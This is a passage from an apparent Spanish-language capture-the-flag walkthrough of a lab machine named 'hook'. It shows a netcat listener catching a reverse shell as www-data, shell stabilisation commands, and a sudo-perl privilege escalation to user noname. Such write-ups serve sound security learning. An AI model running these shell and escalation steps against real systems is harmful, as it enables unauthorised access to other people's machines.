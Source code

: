 Antes de enviarlo vamos a ponernos a la escucha:

```shell
nc -lvnp <PORT>
```

Ahora si enviamos el anterior comando y volvemos a donde tenemos la escucha, veremos lo siguiente:

```
listening on [any] 7777 ...
connect to [192.168.5.50] from (UNKNOWN) [192.168.5.83] 37456
bash: cannot set terminal process group (495): Inappropriate ioctl for device
bash: no job control in this shell
www-data@hook:/var/www/html/htmLawed$ whoami
whoami
www-data
```

Veremos que ha funcionado, por lo que sanitizaremos la `shell`.

### Sanitización de shell (TTY)

```shell
script /dev/null -c bash
```

```shell
# <Ctrl> + <z>
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=/bin/bash

# Para ver las dimensiones de nuestra consola en el Host
stty size

# Para redimensionar la consola ajustando los parametros adecuados
stty rows <ROWS> columns <COLUMNS>
```

## Escalate user noname

Si hacemos `sudo -l` veremos lo siguiente:

```
Matching Defaults entries for www-data on hook:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User www-data may run the following commands on hook:
    (noname) NOPASSWD: /usr/bin/perl
```

Vemos que podemos ejecutar el binario `perl` como el usuario `noname`, por lo que podremos hacer lo siguiente:

```shell
sudo -u noname perl -e 'exec "/bin/bash";'
```
